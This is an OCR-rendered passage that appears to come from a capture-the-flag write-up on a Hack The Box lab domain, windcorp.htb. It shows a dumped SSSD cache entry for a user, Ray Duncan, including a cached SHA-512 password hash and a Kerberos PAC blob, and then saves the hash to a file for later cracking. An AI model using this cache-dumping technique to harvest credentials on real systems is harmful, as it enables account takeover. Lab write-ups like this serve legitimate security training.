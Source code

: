 ```bash
data(2448) = "g\19\01&!\00\00\00name=Ray.Duncan@windcorp.htb,cn=users,cn=windcorp.htb,cn=sysdb\00createTimestamp\00\01\00\00\00\0A\00\00\001659007013\00fullName\00\01\00\00\00\0A\00\00\00Ray Duncan\00gecos\00\01\00\00\00\0A\00\00\00Ray Duncan\00gidNumber\00\01\00\00\00\0A\00\00\001069000513\00name\00\01\00\00\00\17\00\00\00Ray.Duncan@windcorp.htb\00objectCategory\00\01\00\00\00\04\00\00\00user\00uidNumber\00\01\00\00\00\0A\00\00\001069003229\00objectSIDString\00\01\00\00\00.\00\00\00S-1-5-21-1844305427-4058123335-2739572863-3229\00uniqueID\00\01\00\00\00$\00\00\005b7d02b0-b9d3-4bbb-9430-1687f785b601\00originalDN\00\01\00\00\00/\00\00\00CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb\00originalMemberOf\00\01\00\00\00+\00\00\00CN=Development,OU=Groups,DC=windcorp,DC=htb\00originalModifyTimestamp\00\01\00\00\00\11\00\00\0020220728105342.0Z\00entryUSN\00\01\00\00\00\06\00\00\00258212\00userPrincipalName\00\01\00\00\00\17\00\00\00Ray.Duncan@WINDCORP.COM\00adAccountExpires\00\01\00\00\00\13\00\00\009223372036854775807\00adUserAccountControl\00\01\00\00\00\03\00\00\00512\00nameAlias\00\01\00\00\00\17\00\00\00ray.duncan@windcorp.htb\00isPosix\00\01\00\00\00\04\00\00\00TRUE\00lastUpdate\00\01\00\00\00\0A\00\00\001659007013\00dataExpireTimestamp\00\01\00\00\00\0A\00\00\001659012413\00memberof\00\02\00\00\00c\00\00\00name=S-1-5-21-1844305427-4058123335-2739572863-3601@windcorp.htb,cn=groups,cn=windcorp.htb,cn=sysdb\00b\00\00\00name=S-1-5-21-1844305427-4058123335-2739572863-513@windcorp.htb,cn=groups,cn=windcorp.htb,cn=sysdb\00initgrExpireTimestamp\00\01\00\00\00\0A\00\00\001659012797\00canonicalUserPrincipalName\00\01\00\00\00\17\00\00\00Ray.Duncan@WINDCORP.HTB\00ccacheFile\00\01\00\00\00\22\00\00\00FILE:/tmp/krb5cc_1069003229_bA74OK\00cachedPassword\00\01\00\00\00j\00\00\00$6$nHb338EAa7BAeuR0$MFQjz2.B688LXEDsx035.Nj.CIDbe/u98V3mLrMhDHiAsh89BX9ByXoGzcXnPXQQF/hAj5ajIsm0zB.wg2zX81\00cachedPasswordType\00\01\00\00\00\01\00\00\001\00lastCachedPasswordChange\00\01\00\00\00\0A\00\00\001659007462\00failedLoginAttempts\00\01\00\00\00\01\00\00\000\00lastOnlineAuth\00\01\00\00\00\0A\00\00\001659007462\00lastOnlineAuthWithCurrentToken\00\01\00\00\00\0A\00\00\001659007462\00lastLogin\00\01\00\00\00\0A\00\00\001659007462\00pacBlob\00\01\00\00\00\18\03\00\00\06\00\00\00\00\00\00\00\01\00\00\00\C8\01\00\00h\00\00\00\00\00\00\00\0A\00\00\00\1E\00\00\000\02\00\00\00\00\00\00\0C\00\00\00\98\00\00\00P\02\00\00\00\00\00\00\06\00\00\00\10\00\00\00\E8\02\00\00\00\00\00\00\07\00\00\00\10\00\00\00\F8\02\00\00\00\00\00\00\10\00\00\00\10\00\00\00\08\03\00\00\00\00\00\00\01\10\08\00\CC\CC\CC\CC\B8\01\00\00\00\00\00\00\00\00\02\00\BC;9\89s\A2\D8\01\FF\FF\FF\FF\FF\FF\FF\7F\FF\FF\FF\FF\FF\FF\FF\7F\82\C5<Mp\A2\D8\01\82\85\A6w9\A3\D8\01\FF\FF\FF\FF\FF\FF\FF\7F\14\00\14\00\04\00\02\00\00\00\00\00\08\00\02\00\00\00\00\00\0C\00\02\00\00\00\00\00\10\00\02\00\00\00\00\00\14\00\02\00\00\00\00\00\18\00\02\00Y\00\00\00\9D\0C\00\00\01\02\00\00\02\00\00\00\1C\00\02\00 \00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\08\00\0A\00 \00\02\00\10\00\12\00$\00\02\00(\00\02\00\00\00\00\00\00\00\00\00\10\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\01\00\00\00,\00\02\00\00\00\00\00\00\00\00\00\00\00\00\00\0A\00\00\00\00\00\00\00\0A\00\00\00R\00a\00y\00.\00D\00u\00n\00c\00a\00n\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\02\00\00\00\11\0E\00\00\07\00\00\00\01\02\00\00\07\00\00\00\05\00\00\00\00\00\00\00\04\00\00\00H\00O\00P\00E\00\09\00\00\00\00\00\00\00\08\00\00\00W\00I\00N\00D\00C\00O\00R\00P\00\04\00\00\00\01\04\00\00\00\00\00\05\15\00\00\00\13\DE\EDmG\0C\E2\F1\7F\90J\A3\01\00\00\000\00\02\00\07\00\00\00\01\00\00\00\01\01\00\00\00\00\00\12\01\00\00\00\00\00\00\00\80\13\F3\88s\A2\D8\01\14\00r\00a\00y\00.\00d\00u\00n\00c\00a\00n\00\00\00.\00\18\00\18\00H\00\02\00\00\00\14\00`\00\1C\00x\00\00\00\00\00R\00a\00y\00.\00D\00u\00n\00c\00a\00n\00@\00w\00i\00n\00d\00c\00o\00r\00p\00.\00c\00o\00m\00\00\00W\00I\00N\00D\00C\00O\00R\00P\00.\00H\00T\00B\00R\00a\00y\00.\00D\00u\00n\00c\00a\00n\00\00\00\00\00\01\05\00\00\00\00\00\05\15\00\00\00\13\DE\EDmG\0C\E2\F1\7F\90J\A3\9D\0C\00\00\00\00\00\00\10\00\00\00=\F3<B\A5Y\DC\1E\D8e\05\E3\10\00\00\00(\C2\DE\11\14`\97`\C1o\D2&\10\00\00\00\D0\DF\9B\D3\CA\A5j\ECs\98\7F?\00pacBlobExpireTimestamp\00\01\00\00\00\0A\00\00\001659008583\00"
}
...
```

```bash
$ cat ray_duncan.hash                                               
$6$nHb338EAa7BAeuR0$MFQjz2.B688LXEDsx035.Nj.CIDbe/u98V3mLrMhDHiAsh89BX9ByXoGzcXnPXQQF/hAj5ajIsm0zB.wg2zX81
```

